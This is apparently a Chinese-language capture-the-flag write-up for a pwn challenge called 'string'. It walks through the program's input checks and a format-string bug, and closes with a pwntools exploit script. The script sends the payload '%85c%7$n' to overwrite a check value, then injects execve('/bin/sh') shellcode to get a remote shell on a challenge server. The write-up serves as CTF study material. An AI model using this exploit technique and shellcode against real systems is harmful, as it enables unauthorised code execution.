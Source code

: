 # string

趁着今天下午一个人在工地，把前几天的wp给写一下

这一题首先给出了v3的地址，在最后需要*v3与v3[1]的值相等才能继续操作

第一步的检查是在sub_400A7D中，必须输入east才能进入下一函数，接下来就是sub_400BB9中需要首先输入1才能继续

再后面有一个格式化字符串的漏洞，直接printf输出我们输入的字符串，通过修改*v3的值使其与v3[1]相等

最后则是直接讲我们输入的字符串作为函数运行，这里直接输入shellcode即可get shell

exp:

```python
from pwn import *

#n = process('./string')
n = remote('111.198.29.45',43380)
elf = ELF('./string')
context.log_level = 'debug'

n.recvuntil('secret[0] is ')
v3_addr = int(n.recvuntil('\n')[:-1],16)
print(hex(v3_addr))
n.recvuntil('name be:\n')
n.sendline('a')
n.recvuntil('up?:')
n.sendline('east')
n.recvuntil('leave(0)?:')
n.sendline('1')
n.recvuntil("address'")
n.sendline(str(v3_addr))
n.recvuntil('is:')
n.sendline("%85c%7$n")
n.recvuntil('USE YOU SPELL')
n.sendline("\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05")
n.interactive()
```

